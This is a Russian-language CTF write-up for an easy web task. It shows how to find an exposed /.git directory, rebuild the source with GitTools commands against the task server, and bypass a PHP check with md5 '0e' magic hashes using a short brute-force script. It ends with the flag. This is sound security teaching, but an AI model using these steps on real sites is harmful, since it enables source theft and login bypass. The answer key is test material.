 # Начинающий жонглер | easy | web

## Информация
> Вам необходимо научиться самому важному трюку жонглера. Попадите на его представление и узнайте все секреты

## Выдать участникам
Ссылка [link](http://tasks.polyctf.ru:30000/)

## Описание
В данном задании необходимо восстановить коммит из открытой директории /.git и воспользоваться уязвимостью php type juggling

## Решение
Для решения этого задания можно воспользоваться утилитой dirsearch, для того чтобы увидеть доступность директории /.git:

![dirsearch.png](solve/dirsearch.png)

Далее неободимо выгрузить и восстановить содержимое из папки /.git. Для этого можно использовать утилиту [GitTools](https://github.com/internetwache/GitTools/tree/master)

Для начала выгрузим содержимое с помощью скрипта gitdumper.sh:

`./gitdumper.sh http://tasks.polyctf.ru:30000/.git/ ./project`

![dumper.png](solve/dumper.png)

Далее восстановить коммиты через утилиту extractor.sh:

`./extractor.sh ./project ./final`

![extractor.png](solve/extractor.png)

После этой операци был получен исходный коммит. Нужно проанализировать его работу и понять как обрабатывается форма для получения бесплатного билета

![index.png](solve/index.png)

В данном коде можно увидеть типовую уязвимость – php type juggling, завязанную на коллизии в md5. Необходимо написать небольшой код для подбора такого ключа, хеш которого, начинается на 0e и состоит только из цифр. Однако, необходимый ключ можно найти [тут](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/README.md)

Пример кода для подбора ключа:
```
import hashlib

def find_md5_collision(prefix):
    i = 0
    while True:
        candidate = f"{i}"
        hashed = hashlib.md5(candidate.encode()).hexdigest()
        
        if hashed.startswith(prefix) and hashed[2:].isdigit():
            return candidate, hashed
        
        i += 1

if __name__ == "__main__":
    prefix = "0e"
    result = find_md5_collision(prefix)
    print(f"Найдено строка: {result[0]}, Хеш: {result[1]}")
```

## Флаг
`PolyCTF{MD5_AnD_tyPE_jUG9L!n6_IN_PHP_@R3_7r!Cky}`
